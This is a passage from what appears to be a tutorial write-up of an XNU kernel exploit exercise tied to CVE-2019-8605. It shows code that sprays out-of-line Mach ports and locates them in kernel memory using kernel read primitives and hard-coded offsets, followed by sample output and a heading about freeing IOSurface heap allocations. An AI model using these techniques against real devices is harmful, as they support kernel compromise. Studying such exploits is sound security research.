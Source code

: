 ```cpp
    ret = send_ool_ports(ool_message_port, MACH_PORT_NULL, ool_ports_count, MACH_MSG_TYPE_COPY_SEND);
    if (ret) {
        printf("[-] Failed to send ool ports message\n");
        goto err;
    }
```

Here's how to find addresse of OOL ports.

```cpp
uint64_t find_oolports_from_port(mach_port_name_t port) {
    uint64_t port_kaddr = find_port(port);

    //https://github.com/wh1te4ever/xnu_1day_practice/blob/main/CVE-2019-8605/dangling_kptr_reuse/ool.c#L62
    uint32_t off_ipc_port_ikmq_base = 0x40;
    uint64_t ikmq_base = kread64(port_kaddr + off_ipc_port_ikmq_base);
    // INFO("ikmq_base: 0x%llx\n", ikmq_base);

    uint32_t off_ipc_kmsg_ikm_header = 0x18; // p/x offsetof(struct ipc_kmsg, ikm_header)
    uint64_t ikm_header = kread64(ikmq_base+off_ipc_kmsg_ikm_header);

    uint64_t off_mach_msg_ool_ports_desc_address = 0x24; //?
    return kread64(ikm_header + off_mach_msg_ool_ports_desc_address);
}
...
    #if ENABLE_HELPER
    //helper; obtain ool ports addr
    uint64_t oolports_kptr = find_oolports_from_port(ool_message_port);
    INFO("ool_message_port(port=0x%x)'s msgdata_kptr = 0x%llx\n", ool_message_port, oolports_kptr);
    // khexdump(kread64(kmsgdata_kptr+4), 0x1000);
    // getchar();
    //
    #endif
```

OOL ports are located at following specific address.

```cpp
[*] ool_message_port(port=0x1d03)'s msgdata_kptr = 0xffffffe0db810000
```

![image.png](pics/image%205.png)

## 6. Freeing 82MB kernel memory allocated via IOSurface (from step 1)
